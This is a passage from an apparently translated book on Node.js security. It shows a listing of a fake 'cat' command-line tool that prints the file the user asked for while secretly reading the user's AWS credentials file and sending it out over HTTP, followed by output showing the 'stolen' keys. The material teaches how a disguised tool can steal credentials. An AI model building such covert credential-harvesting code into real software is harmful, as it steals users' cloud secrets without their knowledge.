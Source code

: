 ```js
}

async function gatherAWSCredentials() {
   const awsCredsFile = homedir() + "/.aws/credentials"
   return readFile(awsCredsFile, async (err, cnt) => {
       if(err) {
           //ignore silently since we don't want anyone to know about it
           console.error(err)
           return;
       }
       return await sendDataOverHTTP(cnt.toString())
   })
}

readFile(filename, async (err, cnt) => {
   if(err) {
       console.error(err)
       exit(1)
   }
   await gatherAWSCredentials()
   console.log("==== THIS IS WHAT YOU WERE EXPECTING TO SEE ====")
   console.log(cnt.toString())
   console.log("=============================================")
})

Listing 1-3Code for a CLI tool that steals private information

```

这是一个非常简单的脚本；您可以使用 Node 来执行它，如下一个代码片段所示:

```js
$ node cat.js sample1.js

```

然而，输出并不完全是您，作为一个不知情的用户，所期望的；查看清单 [1-4](#PC15) 以了解我的意思。

```js
==== THIS IS WHAT YOU WERE EXPECTING TO SEE ====
const add = (a, b) => {
      return a + b;
}

console.log(add(2,4))
================================================
--------------------------------------------------
-          STOLEN INFORMATION -
[default]
aws_access_key_id = AIIAYOD5HUHFNW6VBSUH
aws_secret_access_key = 389Jld6/ofv1z3Rj9UulA9lkjqmzQlZNACK12O6hK

--------------------------------------------------

Listing 1-4Output from the cat script

```
